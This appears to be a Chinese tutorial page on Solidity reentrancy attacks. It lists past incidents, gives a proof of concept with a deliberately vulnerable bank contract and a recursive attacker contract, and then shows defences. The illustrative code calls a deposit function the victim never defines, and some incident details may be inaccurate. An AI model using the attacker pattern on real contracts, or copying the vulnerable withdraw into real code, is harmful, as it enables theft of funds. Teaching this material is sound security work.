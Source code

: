 ## 重入攻击

### 1. 历史上发生重入攻击项目

| 项目/事件名称                     | 发生时间 | 损失金额                  | 被攻击逻辑摘要                                               |
| :-------------------------------- | :------- | :------------------------ | :----------------------------------------------------------- |
| **The DAO**                       | 2016年   | 360万 ETH（约5000万美元） | 在更新用户余额之前，将ETH发送给调用者，允许递归提款。        |
| **Synthetix**                     | 2019年   | 370万枚 sETH              | 合约在更新用户余额之前进行外部调用，导致余额状态未被及时更新。 |
| **[Lendf.Me](https://lendf.me/)** | 2020年   | 2500万美元                | 在更新内部状态之前进行外部调用，被攻击合约递归提款。         |
| **CREAM FINANCE**                 | 2021年   | 1880万美元                | 重入漏洞允许利用者进行第二次借贷，在首次借贷未完成时再次进行借贷操作。 |
| **Fei Protocol**                  | 2022年   | 8000万美元                | 使用了包含重入漏洞的第三方代码，在资金转移前未正确更新状态。 |

### 2. 攻击原理与POC

重入攻击的核心漏洞在于：**合约在进行外部调用之前，没有更新自身的内部状态**。攻击者利用这个漏洞，在接收ETH的 `fallback` 函数（或者 `receive` 函数）中递归地调用受害合约的提款函数，从而多次通过余额检查，在余额被清零前提取远超其实际存款的金额。

- **单个函数重入**：攻击针对同一个函数进行递归调用。关键问题在于合约在向攻击者发送ETH后，才更新发送者的余额为0。在这期间，攻击者的合约在 `fallback` 函数中再次调用提款函数，由于余额尚未清零，可以再次通过检查并获取ETH，形成循环，直到合约余额几乎被耗尽。
- **跨函数重入**：攻击者利用共享相同状态的多个函数进行攻击。例如，在提款函数中发送ETH后、但尚未更新余额前，攻击者的 `fallback` 函数调用受害合约的转账函数，将自己的余额转给另一个地址。由于提款函数尚未更新余额，转账函数依然认为攻击者有足够的余额。

下面是一个典型的重入攻击案例的简化POC（Proof of Concept）代码逻辑：

**1. 存在漏洞的银行合约（Victim Contract）:**

solidity

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping (address => uint) public userBalances;

    function withdraw() public {
        uint amount = userBalances[msg.sender];
        require(amount > 0, "Insufficient balance");
        // 漏洞：先进行外部调用发送ETH，然后才更新状态
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
        userBalances[msg.sender] = 0; // 状态更新发生在外部调用之后
    }
}
```



**2. 攻击者合约（Attacker Contract）:**

solidity

```
contract Attacker {
    VulnerableBank public targetBank;

    constructor(address _bankAddress) {
        targetBank = VulnerableBank(_bankAddress);
    }

    // 攻击入口函数
    function attack() external payable {
        // 先存入一些ETH以通过余额检查
        targetBank.deposit{value: msg.value}();
        // 然后发起提款，开始攻击
        targetBank.withdraw();
    }

    // 当收到VulnerableBank发送的ETH时，此函数会被触发
    fallback() external payable {
        // 如果目标银行还有足够的余额，就再次调用其withdraw函数
        if (address(targetBank).balance >= msg.value) {
            targetBank.withdraw();
        }
    }
}
```



**攻击流程图解：**

1. 攻击者调用 `attack()` 函数，向 `VulnerableBank` 存入1 ETH。
2. `attack()` 随即调用 `VulnerableBank` 的 `withdraw()` 函数。
3. `VulnerableBank` 检查到攻击者有1 ETH余额，然后尝试向 `Attacker` 合约发送1 ETH。
4. 发送ETH这一操作，会触发 `Attacker` 合约的 `fallback()` 函数。
5. 在 `fallback()` 函数中，`Attacker` 合约再次调用 `VulnerableBank` 的 `withdraw()` 函数。
6. **关键点**：此时，`VulnerableBank` 还未将攻击者的余额清零（因为发生在 `require(success, "Transfer failed")` 之后），所以第二次的 `withdraw()` 调用依然能通过 `require(amount > 0, "Insufficient balance")` 检查。
7. 循环从步骤3开始重复，`VulnerableBank` 再次向 `Attacker` 发送1 ETH，并再次触发 `fallback`......
8. 这个递归循环会持续进行，直到 `VulnerableBank` 的合约余额不足以完成下一次转账，或者达到Gas限制，攻击停止。最终，攻击者成功提取了远多于其存款的ETH。

### 3. 主要防御方法

要有效防范重入攻击，可以采用以下几种经过实践检验的方法：

1. **遵循“检查-效果-交互”模式（Checks-Effects-Interactions）**
   这是最推荐且最基础的原则。编写函数时：

   - **检查（Checks）**：首先进行所有必要的条件验证（如 `require(balance > 0)`）。
   - **效果（Effects）**：接着更新合约的所有状态变量（如 `balances[msg.sender] = 0`）。
   - **交互（Interactions）**：最后再与其他合约或外部地址进行交互（如 `msg.sender.call{value: amount}("")`）。
     将上述漏洞合约的 `withdraw` 函数修改为：

   solidity

   ```
   function withdraw() public {
       uint amount = userBalances[msg.sender];
       require(amount > 0, "Insufficient balance");
       // 效果：先更新状态
       userBalances[msg.sender] = 0;
       // 交互：然后进行外部调用
       (bool success, ) = msg.sender.call{value: amount}("");
       require(success, "Transfer failed");
   }
   ```

   

   这样，即使攻击者尝试重入，他们的余额也早已被清零，无法通过第二次的余额检查。

2. **使用重入锁（Reentrancy Guard）**
   这是一种互斥锁机制，防止函数在未执行完毕时被再次进入。OpenZeppelin库提供了现成的 `ReentrancyGuard` 合约。

   solidity

   ```
   import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
   contract SecureBank is ReentrancyGuard {
       function withdraw() public nonReentrant {
           // ... 函数逻辑
       }
   }
   ```

   

   修饰器 `nonReentrant` 会在函数执行期间"加锁"，阻止任何重入调用。
